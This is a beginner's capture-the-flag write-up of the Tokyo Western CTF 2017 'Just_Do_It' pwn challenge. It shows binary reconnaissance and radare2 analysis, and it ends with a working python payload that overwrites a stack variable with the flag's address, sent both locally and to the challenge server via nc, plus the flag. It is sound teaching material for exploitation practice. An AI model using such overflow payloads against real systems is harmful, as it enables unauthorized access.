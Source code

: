 # Just_Do_It (pwn)
### Tokyo Western CTF 2017

```
Do it! Do it!

nc pwn1.chal.ctf.westerns.tokyo 12345
(Alternative port: nc pwn1.chal.ctf.westerns.tokyo 12482)
```
Binary: [just_do_it](just_do_it)

## Writeup (For Beginners)

After running the Unix 'file' command and 'strings' on the binary. I found out this was a 32-bit x86 binary and I found the following interesting strings.

![strings](img/strings_capture.png)

So it looked like I would need to enter a password and that the program would be opening a file.

Before running the binary I ran [checksec.sh](https://github.com/slimm609/checksec.sh). I found there was no canary but NX was enabled. There was partial RELRO, No PIE, and no Fortify Source. This told me it was more than likely a buffer overflow vulnerability.

Next I ran the binary and got the following message.
![first_run](img/run_nofile.png)

So I ran strace to see what file it was looking for.

![strace_img](img/strace.png)

From that I knew I needed a file named flag.txt in the directory where I am running the binary from. So I created [flag.txt](flag.txt).

![first_run_with_file](img/initial_run.png)

A pretty simple program. I then tried the string "P@SSW0RD" I saw earlier from running strings. 

![](img/does_nothing.png)

So it wasn't as simple as finding the password. Next I took a quick look at the assembly using [Radare](https://github.com/radare/radare2).
```
r2 -AAA ./just_do_it
:> afl
0x080483f8    3 35           sym._init
0x08048430    1 6            sym.imp.strcmp
0x08048440    1 6            sym.imp.fgets
0x08048450    1 6            sym.imp.perror
0x08048460    1 6            sym.imp.puts
0x08048470    1 6            sym.imp.exit
0x08048480    1 6            sym.imp.__libc_start_main
0x08048490    1 6            sym.imp.setvbuf
0x080484a0    1 6            sym.imp.fopen
0x080484b0    1 6            sub.__gmon_start___252_4b0
0x080484c0    1 33           entry0
0x080484f0    1 4            sym.__x86.get_pc_thunk.bx
0x08048500    4 43           sym.deregister_tm_clones
0x08048530    4 53           sym.register_tm_clones
0x08048570    3 30           sym.__do_global_dtors_aux
0x08048590    4 43   -> 40   sym.frame_dummy
0x080485bb    9 337          sym.main
0x08048710    4 93           sym.__libc_csu_init
0x08048770    1 2            sym.__libc_csu_fini
0x08048774    1 20           sym._fini
:> VV@main
```
I saw the flag.txt file being opened and then saw a call to fgets where the contents of flag.txt file were being read into obj.flag.
![](img/r2_flag_object.png)

Next I got the address of obj.flag and saved it.
```
:> px/xw @ obj.flag
0x0804a080  00
```

I scrolled down to see what else the program was doing and saw where it prompted us for our password. I then checked to see how it was retrieving our password. To see if there was a buffer overflow.

![](img/reading_input.png)

From this information I saw that it read in 0x20 bytes using fgets and stored my input in $ebp-0x20 or as Radare puts it local_20h. *For more information see man pages for fgets and review x86 function calls if needed.*

It didn't appear to have a buffer overflow here. At least I couldn't get control over the return address on the stack because I could only read in 0x20 bytes and thats how many bytes I had between my buffer and $ebp. However, I could overwrite a local variable and after looking at the code snippet below I knew I had to overwrite $ebp-0xc.
![](img/cmp_and_print.png)

From this I saw that if the password was correct $ebp-0xc was overwritten by the Correct password message but if the password was incorrect it contained what was in it before, the invalid password message. Since the value inside of flag.txt was already being loaded into a constant known address I knew I had to overwrite $ebp-0xc with the address of obj.flag (0x0804a080) and then the flag would be printed. So, I did some advanced math 0x20-0xc = 0x14 and issued the following command.
```
python -c 'print "A"*0x14 + "\x80\xa0\x04\x08" ' | ./just_do_it
```
This printed out the contents of flag.txt. So all I needed to do was.

```
python -c 'print "A"*0x14 + "\x80\xa0\x04\x08" ' | nc pwn1.chal.ctf.westerns.tokyo 12345
```
TWCTF{pwnable_warmup_I_did_it!}
